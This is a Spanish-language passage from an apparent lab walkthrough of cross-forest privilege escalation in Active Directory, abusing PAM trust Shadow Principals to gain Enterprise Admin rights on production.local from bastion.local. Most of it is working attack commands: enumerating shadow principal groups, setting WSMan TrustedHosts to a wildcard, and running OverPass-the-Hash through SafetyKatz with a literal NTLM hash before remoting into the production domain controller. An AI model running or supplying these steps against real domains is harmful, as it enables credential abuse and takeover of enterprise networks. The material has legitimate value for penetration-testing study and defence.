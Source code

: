 Así que ahora sabemos que SID History está permitido para el acceso desde bastion.local a production.local.
#### Verificar usuarios miembros de Shadow Principals

```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl

Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session
$bastiondc
```

- Revisar los siguientes campos de ``Name``, ``member``. Ejemplo:

```
Name : Shadow Principal Configuration
member : {}
msDS-ShadowPrincipalSid :

Name : prodforest-ShadowEnterpriseAdmin
member : {CN=Administrator,CN=Users,DC=bastion,DC=local}
msDS-ShadowPrincipalSid : S-1-5-21-1765907967-2493560013-34545785-519
```

Por lo tanto, el administrador de bastion.local es miembro del grupo Shadow Security Principals que está asignado al grupo Enterprise Admins de production.local. Es decir, el administrador de bastión.local tiene privilegios de administrador de empresa en producción.local.

Primero se ejecuta el siguiente comando en bastión-dc para obtener la IP de producción.local DC:

```
PS C:\Users\Administrator> Get-DnsServerZone -ZoneName production.local |fl * Get-DnsServerZone -ZoneName production.local |fl *
```

Además para utilizar PowerShell Remoting para conectarse a una dirección IP, se debe modificar la propiedad ``WSMan Trustedhosts`` en ``bastion.local``. Ejecute el siguiente comando en un PowerShell elevado en el host del inicial:

```
PS C:\Windows\system32> Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
```

Además, para conectarnos a una dirección IP tenemos que usar autenticación NTLM. Por lo tanto, se necesita ejecutar OverPass-The-Hash con hash NTLM y no con claves AES de ``bastion/Administrator`` :

```
C:\Windows\system32>C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth
/user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"
```

Ahora se establece una sesión PSRemoting directa en ``bastion-dc`` hacia ``production.local`` con el usuario miembro de los ``Shadow Principals``

```
### Establecer una sesión PSRemoting directa en bastion-dc hacia production.local
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
